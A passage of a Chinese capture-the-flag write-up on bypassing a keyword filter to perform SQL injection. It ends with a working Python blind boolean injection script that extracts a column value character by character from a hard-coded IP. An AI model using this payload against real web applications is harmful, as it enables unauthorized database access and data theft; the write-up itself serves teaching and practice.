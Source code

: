 ```php
   if(!$run_query) {
     echo mysqli_error($conn);
   }
    else
   {  
     // I'm kidding, just the name of flag, not flag :(
     echo '<br>';
     $res = $run_query->fetch_array()[1];
     echo $res; 
   }
  }
}

?>
```

ban了几个常用的函数

当我看到了sys 和 column这种 感觉是一个类似那种无列名注入什么的

没什么思路，和其他师傅讨论了一下

他们和我说因为如果他ban了这种column这种，很可能她的服务器配置就有异常

尝试group by

![image-20210110112129425](/Users/miewang/Library/Application Support/typora-user-images/image-20210110112129425.png)



group by 2的时候

![image-20210110112254147](/Users/miewang/Library/Application Support/typora-user-images/image-20210110112254147.png)

查到了含有flag.

列名为t_fl4g_v3lue_su

没有过滤right left ascii in 可以进行sql注入

po了个脚本

```python
import requests

flag = ''
for i in range(1,100):
    for j in range(32,127):
        conn = requests.get('http://45.77.255.164/?id=-9||ascii(right(left(t_fl4g_v3lue_su,'+str(i)+'),1))in('+str(j)+')')
        r1 = conn.content
        #print j
        if 'handsome_flag' in r1:
            flag += chr(j)
            print flag
            break
```

